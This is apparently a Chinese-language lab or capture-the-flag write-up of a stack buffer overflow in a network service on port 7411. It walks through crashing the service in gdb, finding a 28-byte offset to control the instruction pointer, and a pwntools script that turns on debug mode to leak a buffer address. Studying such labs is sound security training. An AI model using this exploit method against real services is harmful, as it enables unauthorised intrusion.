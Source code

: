 ![image](https://hackmd.io/_uploads/HyZ4zNUXA.png)

可以看到他在機器上有掛載

![image](https://hackmd.io/_uploads/SkFikGL7A.png)

在gdb 裡面執行他之後
讓他執行

![image](https://hackmd.io/_uploads/By6gxz8QC.png)

接著用nc去連接他

![image](https://hackmd.io/_uploads/HkmWgMLXA.png)

輸入admin 再用AAAAAAAA去塞他

![image](https://hackmd.io/_uploads/ByPzlMLXA.png)

可以看到我覆蓋到了 0x00414141
![image](https://hackmd.io/_uploads/SJCBbGIQ0.png)

先把nc 斷開
我們要先去找覆蓋到的位置

![image](https://hackmd.io/_uploads/ByEbzMIQC.png)

可以看到他在 0x413b4141 crack

![image](https://hackmd.io/_uploads/S1D5MNUmR.png)

用gdb 算 offset 是 28

![image](https://hackmd.io/_uploads/S1nUXVUXA.png)

我塞了28個A + 4個B

![image](https://hackmd.io/_uploads/Hk9JNVUmA.png)

他在0x42424242 (BBBB) crack

![image](https://hackmd.io/_uploads/S16WHVL70.png)

#### exploit part 1

```python=
#!/usr/bin/python3

from pwn import *

if args['REMOTE']:
        ip = '10.10.10.34'
else:
        ip = '127.0.0.1'


p = remote(ip,7411)
p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"DEBUG")
p.recvuntil(b"OK DEBUG mode on.")
p.sendline(b"PASS admin")
p.recvuntil(b"Debug: userpass buffer @ ")
userpass_addr = int(p.recvline(),16)
log.info(f"Got leak of userpass from server: 0x{userpass_addr:08x}")
```